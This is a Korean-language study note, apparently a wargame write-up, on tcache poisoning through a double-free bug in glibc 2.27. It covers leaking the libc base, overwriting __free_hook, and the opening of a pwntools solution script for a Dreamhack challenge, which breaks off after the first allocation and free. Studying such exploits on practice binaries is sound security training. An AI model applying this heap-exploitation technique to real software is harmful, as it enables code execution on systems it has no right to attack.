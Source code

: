 - exploit 방법은 아래와 같다.
  - 조건:
    1. double free 취약점 존재
    2. 실행파일 및 소스코드 확보
    3. 코드상 `stdout` 호출
       - `stdout` 은 libc 에 정의된 값으로, 코드상에서 이를 호출하면 `.bss` 영역에 libc 영역을 가리키는 주소 `_IO_2_1_stdout_` 가 담기게 된다.

  - 절차:
    1. `AAR`(Arbitrary Address Read) 로 libc_base 주소를 추출한다.
    2. `AAW`(Arbitrary Address Write) 로 hook 을 overwrite 한다.
       - `readelf -s` 로 __free_hook 의 주소를 찾는다.
         ```
         221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5
         ```

  - [문제](https://dreamhack.io/wargame/challenges/358/) 해결 예제코드
    ```
    from pwn import *

    PROGRAM = 'tcache_poison'
    PAYLOAD = 'A'
    GADGET = 0x4f432

    p = process(PROGRAM)
    e = ELF(PROGRAM)
    lib = ELF('libc-2.27.so')

    ###############
    # 1. Doubly free memory
    ###############
    # alloc chunk1
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'50')
    p.sendafter(b'Content:', PAYLOAD.encode())

    # tcache: (*) -> NULL
    # --------------------------

    # free chunk1
    p.sendlineafter(b'Edit\n', b'2')

    # tcache: (*) -> chunk1
    # --------------------------
